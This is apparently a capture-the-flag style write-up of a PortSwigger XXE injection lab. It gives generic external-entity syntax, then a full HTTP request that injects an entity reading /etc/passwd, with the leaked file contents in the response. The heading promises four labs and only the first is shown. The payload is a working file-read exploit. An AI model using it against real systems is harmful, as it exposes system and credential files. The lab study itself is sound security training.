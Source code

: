 <span style="color:yellow;font-weight:700;font-size:30px">
XML external entity (XXE) injection - 4 Labs
</span>

# ***[XXE explained:](https://portswigger.net/web-security/xxe)***

examples:
```xml
&payload; = <!doctype foo [ <!entity "payload" > ]>
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://normal-website.com" > ]>
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///path/to/file" > ]>
```

# ***[1. Lab: Exploiting XXE using external entities to retrieve files](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files)***

This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

To solve the lab, inject an XML external entity to retrieve the contents of the /etc/passwd file. 

**request**:
```xml
POST /product/stock HTTP/1.1

<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE mage [ <!ENTITY aparecium SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
<productId>
&aparecium;
</productId><storeId>2</storeId></stockCheck>
```

response:
```
HTTP/1.1 400 Bad Request

"Invalid product ID: 
root:x:0:0:root:/root:/bin/bash
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin    ..
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
peter:x:12001:12001::/home/peter:/bin/bash
carlos:x:12002:12002::/home/carlos:/bin/bash
user:x:12000:12000::/home/user:/bin/bash
elmer:x:12099:12099::/home/elmer:/bin/bash
academy:x:10000:10000::/academy:/bin/bash
..
dnsmasq:x:102:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
```
# Lab solved
